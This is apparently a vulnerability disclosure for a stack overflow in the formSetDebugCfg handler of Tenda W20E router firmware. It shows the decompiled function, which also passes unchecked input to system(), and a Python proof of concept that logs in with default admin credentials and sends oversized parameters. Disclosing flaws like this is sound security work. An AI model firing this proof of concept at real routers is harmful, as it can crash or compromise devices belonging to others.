 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function formSetDebugCfg, the content obtained by the program from the parameter "enable", "level" and "module" are passed to pcVar1 and pcVar3, 
and then the pcVar1, pcVar2 and pcVar3 are directly copied into the cmd stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetDebugCfg(webs_t wp,char_t *pPath,char_t *pQuery)

{
  char *pcVar1;
  char *pcVar2;
  char *pcVar3;
  char cmd [128];
  char *pModule;
  char *pLevel;
  char *pEnable;
  
  memset(cmd,0,0x80);
  pcVar1 = websGetVar(wp,"enable","2");
  pcVar2 = websGetVar(wp,"level","2");
  pcVar3 = websGetVar(wp,"module","httpd");
  sprintf(cmd,"echo enable=%s level=%s > /var/debug/%s",pcVar1,pcVar2,pcVar3);  //here is overflow
  system(cmd);
  outputToWebs(wp,cmd);
  return;
}
```

### * POC

```python
import requests

cmd  = b'enable=' + b'A' * 800 
cmd += b'&level='+ b'A' * 800
cmd += b'&module='+ b'A' * 800

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```


